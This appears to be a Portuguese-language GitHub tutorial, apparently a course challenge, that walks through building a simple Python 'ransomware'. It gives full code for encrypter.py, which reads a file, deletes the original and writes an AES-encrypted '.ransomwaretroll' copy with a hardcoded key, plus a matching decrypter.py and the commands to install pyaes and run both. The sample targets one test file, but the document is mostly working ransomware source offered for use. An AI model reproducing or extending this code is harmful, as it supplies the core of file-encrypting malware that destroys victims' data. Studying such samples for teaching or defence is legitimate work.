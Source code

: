 # Ransomware para criptografar arquivos

### Ferramentas

- Kali Linux
- Python
- vim

### Criando os arquivos

- Criar diretório e arquivos de código e texto
```shell
$ mkdir desafio-ransomware
$ touch desafio-ransomware/encrypter.py
$ touch desafio-ransomware/decrypter.py
$ touch desafio-ransomware/teste.txt
```

- Criar o código do arquivo encrypter.py

```shell
vim encrypter.py
```

Inserir o conteúdo:

```python 
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

- Criar o código do arquivo decrypter.py

```shell
vim decrypter.py
```

Inserir o conteúdo:

```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

- Criar o conteúdo do arquivo de texto

```shell
echo "alo brasil" > teste.txt
```

### Instalando biblioteca pyaes para execução do código

```shell
sudo apt install python3-pyaes
```

### Criptografando o arquivo e verificando o conteúdo

```shell
python3 encrypter.py
cat teste.txt
```

### Descriptografando o arquivo e verificando o conteúdo

```shell
python3 decrypter.py
cat teste.txt
```

